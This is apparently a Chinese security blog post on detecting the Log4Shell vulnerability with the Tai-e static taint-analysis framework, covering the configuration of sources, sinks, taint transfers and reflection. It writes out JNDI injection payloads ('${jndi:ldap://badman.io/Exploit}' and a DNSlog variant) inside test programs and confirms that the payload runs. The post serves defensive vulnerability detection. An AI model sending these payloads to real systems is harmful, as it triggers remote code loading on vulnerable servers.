




# 太阿静态分析检测Log4Shell - 先知社区

太阿静态分析检测Log4Shell

- - -

## 0x01 Tai-e 的污点分析方案

Java 污点分析（追踪污点数据流）最令人头疼的两个难点：别名关系和动态反射。

Tai-e 污点分析提出一个基于指针分析的架构，来解决别名分析和反射分析两个问题。

**解决方案思路**：

-   将污点转换成对象，然后利用指针分析传播污点数据，这样自然地解决了别名关系
-   采用 2019 年提出的、目前推导能力最强的静态反射分析技术，来处理反射

## 0x02 Log4Shell 漏洞原理

日志方法：logger.error(str)

#### 2a Lookup 机制

将 ${...} 中的特定字符串映射到相应的值，举例如图所示。

| 表达式 | 解析值 |
| --- | --- |
| logger.error("${java:version}") | Java version 1.8.0\_292 |
| logger.error("${java:os}") | Windows 10 10.0, architecture: and64-64 |

通过 lookup 机制，让 log4j 的记录功能更加强大，跨平台性更强，还可以通过该机制输出环境信息而无需硬编码。

#### 2b JNDI Lookup

JNDI（Java Naming and Directory Interface）：${jndi : ...}

-   Java 平台的一个标准扩展
-   通过绑定的概念将名称和对象联系起来：名称-->对象
    -   文件系统：文件名-->文件
    -   DNS：URL地址-->IP地址
-   提供了 "通过名称查找到相应对象" 的规范接口
-   实际的查找功能，交由具体的技术实现，比如 RMI、DNS、Corba、Ldap 等

#### 2c JNDI & LDAP Lookup

LDAP（Lightweight Directory Access Protocol）：${jndi : ldap: ...}

-   一种目录访问协议，可用于在网络上访问和管理分布式目录服务
-   Log4j 将输入解析成远程地址，并发起请求
-   服务器响应请求

构造恶意 payload：${jndi : ldap://badman.io/Exploit}。

## 0x03 如何分析 Log4Shell

#### 3a 设置 source 和 sink

Log4Shell 本质上是个注入漏洞（Injection），可通过污点分析（Taint Analysis）进行检测，该漏洞的入口方法、利用方法如下所示。

```plain
Logger.error(...)
            ⬇️
            ...
    JNDI Lookup
```

使用太阿提供的测试主程序：

```plain
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Server {

    public static void main(String[] args) {
        Logger logger = LogManager.getLogger(Server.class);
        String input = getInput();
        logger.error(input);
    }

    private static String getInput() {
        return "${jndi:ldap://badman.io/Exploit}";
    }
}
```

Sources：标记为用户输入。污点数据来源于 Main 的 getInput() 方法，当系统调用该方法时获得污点数据。

```plain
sources:
- {kind: call, method: "<Main: java.lang.String getInput()>", index: result}
```

Sinks：对应的是 JNDI Lookup，在 log4j 中是调用 InitialContext 的 lookup() 方法来启动 JNDI 的 lookup，所以可以把 Sink 标记为 javax.naming.InitialContext.lookup(String) 。

```plain
sinks: 
- { method: "<javax.naming.InitialContext: java.lang.Object lookup(java.lang.String)>", index: 0}
```

污点分析要做的内容，就是找出 error 到 JNDI Lookup 的一条传播路径。

实践检测 Log4Shell 时遇到的挑战：

-   跨越 33 层方法调用
-   污点数据多次变换形态
-   过程涉及多种反射 API，也可能导致数据流追踪断掉

#### 3b 自创建测试项目

使用 IDEA 创建一个 Maven 项目，使用 pom.xml 配置 log4j 2.14.0：

```plain
<dependencies>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-web</artifactId>
            <version>2.14.0</version>
        </dependency>
    </dependencies>
```

测试程序：编写一个 Java 测试类，动态传入 logger.error(str) 的字符串参数。

```plain
package org.example;

import org.apache.logging.log4j.*;
import java.lang.String.*;

public class Main {
    public static void main(String[] args) {


        Logger logger = LogManager.getLogger();

        //String poc = "${java:os}";
        String poc = getInput();

        logger.error(poc);

    }

        private static String getInput(){
            return "${jndi:ldap://9710ck.dnslog.cn}";
        }

}
```

运行测试，确认成功执行 payload：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103152910-c9165040-aa09-1.png)

#### 3c 配置 Tai-e 的三个步骤

分析漏洞配置 Tai-e 的步骤：

| 步骤  | 内容  |
| --- | --- |
| 第一步 | 配置 Source 和 Sink |
| 第二步 | 配置污点转移 |
| 第三步 | 配置反射分析 |

## 0x04 Tai-e 的污点分析配置

参考资料：[配置污点分析-官方文档](https://tai-e.pascal-lab.net/docs/current/reference/en/taint-analysis.html#configuring-taint-analysis)。

Tai-e 使用 YAML 配置文件配置源、接收器、污点传输和清理程序，以进行污点分析。

#### 4a 基本概念

仅对不熟悉的概念进行介绍。

###### 变量表示

设置污点分析时，通常有必要表示 call site 或一个方法的变量。

第一种，调用点的变量，比如 r = o.foo(p, q);

| 类型  | 描述  | 表示  |
| --- | --- | --- |
| 结果变量 | 方法调用的结果，也叫做左手边变量 | result |
| 基变量 | 方法调用的接收器对象，指在方法点号 . 之前指定的实例对象 | base |
| 参数  | 调用点的参数，从 0。开始索引 | 0,1,2,... |

第二种，方法的变量，目前支持通过方法的索引来指定参数，比如 foo 方法的参数 t, s, o 的索引是 0, 1, 2。

```plain
package org.example;

class MyClass {
    void foo(T t, String s, Object o) {
        ...
    }
}
```

###### 字段签名

字段签名的目的是在分析的程序中唯一标识字段。 字段签名的格式如下：

```plain
<CLASS_TYPE: FIELD_TYPE FIELD_NAME>
```

例如下面字段的签名`info`

```plain
package org.example;

class MyClass {
    String info;
}
```

其字段签名为：

```plain
<org.example.MyClass: java.lang.String info>
```

#### 4b Source 分类

污点对象根据 sources 生成。在配置文件中，sources 被指定为一个 source entries 的清单，放置在 sources 键后。

###### Call Sources

最常用的 source 类型是 `Call Sources`，适用于污点对象在 call sites 生成的场景，格式如下：

```plain
- { kind: call, method: METHOD_SIGNATURE, index: INDEX, type: TYPE }
```

如果在配置文件中编写 call sources ，当污点分析发现 METHOD\_SIGNATURE 在 call site 被调用时，太阿会为调用点的变量创建一个 Type 类型的污点对象。（Type 为可选性质，如果没有指定，应当是生成函数返回类型的污点对象）

提示：可能有人想知道，为什么函数签名中已经包含方法的声明类型，还需要包含 `type: Type` 字段。

-   这是因为污点对象的类型，应当与实际对象对齐。
-   但是在某些情况下，与该方法相关的实际对象类型可能是声明类型的子类。
-   因此，我们使用 `type: Type` 在这种情况下指定准确的对象类型

比如下面一段代码，source() 的声明类型是 X，但实际上返回的对象类型是 X 的子类 Y。

```plain
class X {...}

class Y extends X { ... }

class Z {
    X source() {
        ...
        return new Y();
    }
}
```

**理解：**污点分析的数据源往往来源于封装的方法，比如 request.getParameter(str)、request.getInputStream()。根据 source 建立的污点对象，即是这些调用点的返回对象，也即是污点分析要追踪的数据流。

###### Parameter Sources

某些方法（例如入口方法）在程序内没有显式调用点，因此无法在其调用点为变量生成污点对象。 然而，在某些情况下，为其参数生成污点对象可能很有用。 为了满足这一要求，太阿的污点分析提供了配置参数源的功能：

```plain
- { kind: param, method: METHOD_SIGNATURE, index: INDEX, type: TYPE }
```

理解：一般情况下，JavaWeb 污点分析中 source 的 kind 都为 call。

###### Field Sources

太阿的污点分析还允许用户使用以下格式将字段指定为污点源：

```plain
- { kind: field, field: FIELD_SIGNATURE, type: TYPE }
```

在配置中包含此类源时，如果污点分析发现字段 `FIELD_SIGNATURE` 已加载到变量 `v` 中（例如 `v = o.f`），它会为生成一个`TYPE`的污点对象。

#### 4c Sink 分类

目前太阿支持指定 sink 方法的特定变量作为 sinks。在配置文件中，sinks 被指定为一个 sink entries 的清单放置在 sources 键后。

```plain
sinks:
  - { method: METHOD_SIGNATURE, index: INDEX }
  - ...
```

当污点分析识别出 call sites 调用了 Method\_Signature 和 Index 表示的变量时，太阿将为检测到的污点流生成报告。

比如 new File(name) 根据文件名创建文件对象，设置其为 sinks 得到：

```plain
sinks: 
- { method: "<java.io.File: java.io.File File(java.lang.String)", index: 0 }
```

#### 4d 污点转移（追问和思索）

###### 区别于指针分析

这部分好像是追踪数据流的关键，尝试梳理一下思路。

回顾一下《程序分析》的理论课程，主要讲解了 Soundness、中间表示 IR、数据流分析的方向/代码帧的建模和计算、过程间分析、指针分析等等。

通过回顾发现，指针分析的语句场景是 New、Assign、Store、Load、Call 等五种，污点对象基本通过这些语句进行流动，看起来能够满足追踪数据流的需要。

提出疑问：那么我们为什么还需要污点转移？或者说有了指针分析，污点对象的数据流追踪为什么还会中断？

尝试解答：经过查找资料和思考，还是在官网文档中找到了答案。

-   指针分析能够处理的污点转移，依赖于分析的语句
-   指针分析对于 Store、Load 语句这种赋值类型的语句，可以追踪其污点转移
-   但是，指针分析处理的语句并不包含 StringBuilder.append(taint)、StringBuilder.toString() 等方法调用语句，也就难以追踪这些语句中污点对象的转移
-   所以需要额外收集这些语句，然后通过污点转移配置指明 **污点对象/指针对象** 的流动方向

比如示例代码：

```plain
String taint = getSecret(); // source
StringBuilder sb = new StringBuilder();
sb.append("abc");
sb.append(taint); // taint is transferred to sb
sb.append("xyz");
String s = sb.toString(); // taint is transferred to s
leak(s); // sink
```

调用 sb.append() 语句时，taint 转移到了一个 StringBuilder 对象。调用 sb.toString() 语句时，taint 又从 StringBuilder 对象转移到了 String 对象。

对于这两个方法调用语句，我们需要告诉太阿，污点对象指向了哪个新的对象。比如污点对象流到 java.lang.StringBuilder 的 append(java.lang.String) 语句时，污点对象流向的对象就变成了方法的返回类型，即 java.lang.StringBuilder 对象。

这两条语句的执行，就会为污点对象的 Pointer Flow Graph 添加两个新的节点：java.lang.String --> java.lang.StringBuilder --> java.lang.String。

如此以来，**污点对象的数据流追踪/其实就是指针流向图** 就可以继续往下分析。

```plain
transfers:
  - { method: "<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>", from: 0, to: base }
  - { method: "<java.lang.StringBuilder: java.lang.String toString()>", from: base, to: result }
```

突然意识到，污点对象的数据流追踪其实就是指针流向图，通畅了。

###### 概念和场景

污点转移的概念：

-   是污点分析常见的场景
-   程序运行时，污点所代表的数据（比如隐私数据/外部可控的输入数据）可能会以不同的形式在程序中传播，其形式的变换成为 Tiant Transfer 污点转移
-   通常污点转移**由某些方法的调用引起**

列举五种污点转移的情况，由方法调用 base.foo(a~0~, a~1~, ..., a~n~) 引起。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153005-ea0cf6d2-aa09-1.png)

不同的 base、foo 甚至 a~n~ 都可能导致不同的污点转移，尝试思考污点转移问题的解决思路：

-   第一种即 Tai-e 在用的解决方案
    -   不断收集具体的 base/foo/arg，指明污点转移的 from 和 to，从而得到指针流向关系
    -   缺点是不仅要收集通用方法的污点转移关系，还要在分析 JavaWeb 系统自定义的方法时、定制编写污点转移关系
-   第二种是在方法调用执行后，检查相关的 result/base/arg 指针是否发生变化，比如是否新增了污点对象的指针？不行
    -   比如 StringBuilder.append() 会申请新地址并复制原地址中的数据，然后指针指向新地址，释放掉原地址
    -   那么转移之后，原污点对象的指针地址是释放掉了，而非作为污点对象的标识符存储到新的地址当中，只是转移了内存里的数据。没有标识符，就意味着无法确定污点对象是否被添加到了创建的 StringBuilder 对象

## 0x05 安装太阿并检测 Log4Shell

参考文档：[Tai-e 0.5.1 参考文档](https://tai-e.pascal-lab.net/docs/current/reference/en/index.html)。

#### 5a 安装太阿

本地环境如下，根据参考文档创建和配置项目。

-   IntelliJ IDEA 2023.1
-   Amazon Corretto version 17.0.8

单独下载太阿的 java-benchmarks 子模块，该存储库包含分析所使用的 Java 库。

太阿的主类是 pascal.taie.Main，其配置项有三类。

| 配置项 | 说明  |
| --- | --- |
| 程序选项 | 指定要分析的程序 |
| 分析选项 | 指定要执行的分析 |
| 其他选项 | \-  |

###### 程序选项

这些选项指定要分析的 Java 程序（比如P）和库。

由于 Soot 仅部分支持 Java7 版本，建议使用太阿分析字节码，而不是源代码。

-   类路径（-cp/--class-path），目前支持以下类型的路径
    -   支持 jar 文件的相对/绝对路径
    -   包含 `.class`（或 `.java`）文件的目录的相对/绝对路径
-   应用程序类路径（-acp/--app-class-path）
    -   参数选项与 -cp 完全相同
    -   区别在于，-cp 只会把 application/main/input 引用的字节码添加到 P 的 closed world，-acp 会把所有字节码添加到 P 的 closed world
-   主类（-m/--main-class），表示 P 的主类，该类必须声明一个 public static void main(String\[\]) 的方法
-   输入类（--input-classes），向 P 的 closed world 添加类。有些Java程序使用动态类加载，因此 Tai-e 无法从主类中引用相关类。可以通过此选项将此类类添加到 closed world
-   Java版本（-java），指定分析中使用的 Java 库的版本，默认为 6，目前提供 Java 版本 3、4、5、6、7 和 8 的库
-   前置 JVM 类路径（-pp/--prepend-JVM），将 JVM 的类路径添加到分析类路径
-   允许引用镜像（-ap/--allow-phantom），允许太阿处理镜像引用，即在类路径中找不到的引用类

###### 分析选项

这些选项决定要执行的分析及其行为，分为两组。

-   一般分析选项
    -   提前构建 IR（--pre-build-ir），在开始分析之前为所有可用方法构建 IR
    -   分析范围（scope），默认值 APP，指定分析类和方法的分析范围，APP-仅限应用程序类、ALL-所有类、Reachable-调用图中可达的类（这个范围需要分析`cg`，即调用图构建）
-   自定义分析选项
    -   执行分析，需要指定分析 id 和选项
    -   Tai-e 中所有可用的分析及其信息，在分析配置文件 `src/main/resources/tai-e-analyses.yml` 列出

###### 其他选项

-   帮助：-h/--help
-   **世界缓存模式**：-wc/--world-cache-mode
    -   用世界缓存模式，通过将已完成的构建世界缓存到磁盘来节省构建时间。
    -   启用后，它将尝试加载缓存的世界，而不是从头开始重建它，从而大大加速世界构建过程。只要分析的程序（即 classPath、mainClass 等）保持不变，这就适用。该选项在分析开发过程中特别有用，此时分析的程序保持不变，但分析器代码被修改并重复运行，从而节省开发人员的时间。宝贵的时间。
-   指定输出目录（--output-dir）：`--output-dir <outputDir>`
    -   默认情况下，Tai-e 将所有输出（例如日志、IR 和各种分析结果）存储在当前工作目录内的 `output` 文件夹中。如果您希望将输出保存到不同的目录，只需使用此选项即可。

###### 命令行选项的使用示例

假设我们要分析一个程序*P*，如下所述：

-   *P* 由两个文件组成：`foo.jar`（JAR 文件）和 `my program/dir/bar.class`（类文件）。
-   *P*的主类是`baz.Main`
-   *P*与Java 8一起分析
-   我们运行2类型敏感的指针分析并将指针分析的执行时间限制为60秒

那么选项将是：

```plain
java -jar tai-e-all.jar -cp foo.jar -cp "my program/dir/" -m baz.Main -java 8 -a "pta=cs:2-type;time-limit:60;"
```

#### 5b 配置并检测

根据视频教程，自己动手用太阿检测 Log4Shell，只需要做两件事。

-   找到 Main class：pascal.taie.Main
-   只需配置运行参数：--options-file java-benchmarks/log4j/2.14.0/options.yml

编辑太阿运行配置，使用 --options-file 指定运行参数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153031-f9960e22-aa09-1.png)

运行结果查看 output/tai-e.log，可以看到找到一个污点流。

```plain
Detected 1 taint flow(s):
TaintFlow{
<Server: void main(java.lang.String[])>[12@L8] temp$4 = invokestatic Server.getInput()/result 
-> 
<org.apache.logging.log4j.core.net.JndiManager: java.lang.Object lookup(java.lang.String)>[1@L172] $r3 = invokeinterface $r2.lookup(name)/0}
```

将污点分析结果 .dot 转换成 svg 文件

```plain
dot -Tsvg -o taint-flow-graph.svg taint-flow-graph.dot
```

dot语言是一种使用代码描述各种图形关系的工具，通常需要安装Graphviz。

```plain
brew install graphviz
```

生成的污点流如图所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153045-01be625c-aa0a-1.png)

## 参考

-   [程序分析框架“太阿”与安全漏洞的那些事 之 Log4Shell篇](https://www.bilibili.com/video/BV1dV411F781/?spm_id_from=333.999.0.0&vd_source=6f00d82ef8dcee1f58beb6fb7faee4ff)
    
-   [配置污点分析-官方文档](https://tai-e.pascal-lab.net/docs/current/reference/en/taint-analysis.html#configuring-taint-analysis)
